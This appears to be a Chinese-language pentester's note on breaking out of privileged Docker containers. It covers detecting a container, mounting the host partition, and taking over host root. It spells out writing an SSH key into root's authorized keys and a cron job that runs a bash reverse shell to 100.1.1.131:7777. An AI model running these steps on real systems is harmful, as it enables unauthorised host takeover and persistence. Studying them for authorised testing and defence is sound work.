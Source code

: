 ```yaml
---

---
```


# Docker

- [Docker](#docker)
  - [Docker逃逸](#docker逃逸)
    - [反弹 shell 中如何判断自己是否在 docker 容器中](#反弹-shell-中如何判断自己是否在-docker-容器中)
    - [特权容器逃逸(反弹shell到特权模式的docker容器后进一步获取宿主机权限)](#特权容器逃逸反弹shell到特权模式的docker容器后进一步获取宿主机权限)
        - [写公钥](#写公钥)
        - [写定时任务](#写定时任务)

---

## Docker逃逸

> [Docker 逃逸漏洞汇总 | T Wiki](https://wiki.teamssix.com/cloudnative/docker/docker-escape-vulnerability-summary.html)

---


### 反弹 shell 中如何判断自己是否在 docker 容器中

- 看当前反弹 shell 的主机名称, 一堆数字字母的则可能是 docker 容器 id

  ![image-20230619000402010](http://cdn.ayusummer233.top/DailyNotes/202306190004059.png)

- 查看根目录下有没有 `.dockerenv` 文件, 如果有的话则可能在 docker 环境中

  ```bash
  ls -alh /.dockerenv
  ```

  ![image-20230618230722588](http://cdn.ayusummer233.top/DailyNotes/202306182307643.png)

----


### 特权容器逃逸(反弹shell到特权模式的docker容器后进一步获取宿主机权限)

在判断当前反弹shell位置为docker后可以尝试查看下系统中的所有银盘分区表信息

```bash
fdisk -l
```

如果没有输出则不是特权模式启动的 Docker 容器

![image-20230619095827529](http://cdn.ayusummer233.top/DailyNotes/202306190958112.png)

如果有输出则可以观察 Device 了

![image-20230619100109506](http://cdn.ayusummer233.top/DailyNotes/202306191001591.png)

![image-20230619100145688](http://cdn.ayusummer233.top/DailyNotes/202306191001794.png)

上图Type 为 Linux 的这条即为宿主机的系统分区

> 遇到过宿主是实体机固态装系统+一块机械时, 特权容器启动的 docker 能看到机械硬盘所在的分区, 系统分区显示的 ` /dev/nvme0n1p1` 和 ` /dev/nvme0n1p2`, 一个 PE 一个 LinuxVM 似乎(也许不是 LinuxVM, 不过一定不是LINUX, TODO: 记得确认下), 此时只能再用 `lvdisplay` 找逻辑卷, 不过这条命令 Docker 容器中不一定有

看到系统分区后可以在容器中新建一个目录然后挂载该分区

```bash
mkdir /joker
mount /dev/sda5 /joker
```

![image-20230619101649612](http://cdn.ayusummer233.top/DailyNotes/202306191016670.png)

----

##### 写公钥

可以尝试写 root 账户的公钥

![image-20230619102252795](http://cdn.ayusummer233.top/DailyNotes/202306191022850.png)

在本机新建一对密钥

```bash
ssh-keygen -t rsa -C "xxl-job"
```

> `-C(comment)` 随便填, 有辨识度就行

在命令执行的交互中可以设置密钥存放的路径, 然后根据回显找到 `.pub` 公钥

![image-20230619102802288](http://cdn.ayusummer233.top/DailyNotes/202306191028353.png)

然后直接用 `echo >>` 来续写即可

![image-20230619102953093](http://cdn.ayusummer233.top/DailyNotes/202306191029155.png)

然后就可以 cat 看下了, 顺利的话已经写进去了

![image-20230619103048603](http://cdn.ayusummer233.top/DailyNotes/202306191030673.png)

然后可以直接 ssh 连接到宿主机了

```bash
ssh -i id_rsa root@xxx
```

![image-20230619103459517](http://cdn.ayusummer233.top/DailyNotes/202306191034575.png)

---

##### 写定时任务


ubuntu 默认没有 MTA, 因此执行定时任务可能会报这样的错:

![image-20230626075128404](http://cdn.ayusummer233.top/DailyNotes/202306260751798.png)

所以需要在定时任务中第一行写上 `MAILTO=""` 以禁用邮件输出

此外直接写 `bash -i >& /dev/tcp/100.1.1.131/7777  0>&1` 到定时任务中不一定行得通, 可以写个脚本, 然后定时任务调脚本执行, 比如:

`test.sh`:

```sh
#!/bin/bash
bash -i >& /dev/tcp/100.1.1.131/7777  0>&1
```

`/var/spool/cron/crontabs/root`:

```
MAILTO=""
* * * * * /bin/bash test.sh
```

---

